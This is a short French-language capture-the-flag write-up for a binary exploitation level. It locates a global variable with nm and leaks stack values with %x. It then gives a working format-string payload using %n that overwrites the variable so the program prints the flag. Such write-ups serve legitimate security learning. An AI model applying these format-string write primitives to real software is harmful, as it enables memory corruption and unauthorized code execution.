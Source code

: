 #  LEVEL - 4

- Nous voyons dans le code source que la variable que nous devons ovewride est m. Avec la commande `nm` nous pouvons afficher les addresses.

<pre>
$> nm level4
...
<strong>08049810 B m</strong>
080484a7 T main
08048457 T n
08048444 T p
...
</pre>

- Nous avons l'adresse qui nous interesse. En litle indian: 10 98 04 08. Nous devons alors chercher l'endroit exacte de l'adresse grace au printf.

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%x ' * 13)" | ./level4
AAAAb7ff26b0 bffff734 b7fd0ff4 0 0 bffff6f8 804848d bffff4f0 200 b7fd1ac0 b7ff37d0 41414141 <strong>8049810</strong>
</pre>

- On voit que dans la source il faut que m soit egal a 16930116 pour que le programe execute un cat sur le flag. Grace au %13\$n nous prenons la 13e adresse (soit l'adresse de la variable m que nous devons override).

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%16930108d'+ '%13\$n')" | ./level4> /tmp/output
</pre>

- Il suffit alors d'ouvrir le `/tmp/output` avec vim pour voir le flag. (attention au cat ^^).
